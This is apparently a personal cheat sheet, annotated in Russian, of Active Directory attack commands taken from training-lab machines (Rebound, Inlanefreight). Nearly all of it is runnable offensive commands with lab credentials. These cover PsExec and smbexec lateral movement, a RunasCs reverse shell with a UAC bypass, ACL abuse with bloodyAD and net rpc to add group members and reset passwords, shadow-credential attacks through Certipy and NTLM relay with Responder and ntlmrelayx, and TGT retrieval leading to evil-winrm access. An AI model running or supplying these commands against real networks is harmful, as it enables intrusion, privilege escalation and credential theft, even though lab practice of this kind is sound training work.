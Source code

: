  * PSEXEC ПО БЕЛЕТУ PSExec.exe -accepteula \\sql01.inlanefreight.local cmd
* smbexec xthtp ntlmrelay  proxychains4 -q smbexec.py INLANEFREIGHT/PETER@172.16.117.50 -no-pass

# RunAsCS

.\RunasCs backup IZtLVsqMDMENsTTekNwKwHGrFpmANUFgxOwvHREm --bypass-uac --logon-type 8 cmd.exe -r 10.10.14.49:445

#ACL ( Net rpc and bloodyad and certypy

net rpc group addmem "SERVICEMGMT" "OOREND" -U "REBOUND.HTB/OOREND" -S "REBOUND.HTB" 		(Добавить пользователя в группу)

или 

https://github.com/CravateRouge/bloodyAD?tab=readme-ov-file

python3 -m venv venv

source venv/bin/activate

pip3 install -r requirements.txt  


./bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb  add groupMember ServiceMgmt oorend		((Добавить пользователя в группу))

net rpc group members "ServiceMGMT"  -U "rebound.htb"/"oorend"%'1GR8t@$$4u' -S "dc01.REBOUND.HTB"		(проверка членов группы)

./bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb  add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB'  oorend		(Generic all - добавить себя в OU )

./bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb  set password winrm_svc 'Password123!' 		(смена пароля при наличии прав)

# SHADOW CREDENTIALS
 
 certipy shadow auto -username oorend@rebound.htb -password '1GR8t@$$4u' -k -account winrm_svc -target dc01.rebound.htb		(shadow credential)
 
./bloodyAD.py -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb  add shadowCredentials winrm_svc 		(shadow credential)

# SHADOW CREDENTIALS (через ntlm relay)

	sudo python3 Responder.py -I ens192
	sudo ntlmrelayx.py -t ldap://INLANEFREIGHT\\CJAQ@172.16.117.3 --shadow-credentials --shadow-target jperez --no-da --no-dump --no-acl --no-smb-server  (Ловим CJAQ и заставляем его отдать сертификатShadowCredentials над jperz)
 	python3 gettgtpkinit.py -cert-pfx rbnYdUv8.pfx -pfx-pass NRzoep723H6Yfc0pY91Z INLANEFREIGHT.LOCAL/jperez jperez.ccache (Сохраняем TGT из сертификата)
	KRB5CCNAME=jperez.ccache evil-winrm -i dc01.inlanefreight.local -r INLANEFREIGHT.LOCAL

 
 # ПОЛУЧЕНИЕ TGT из сертификатов
 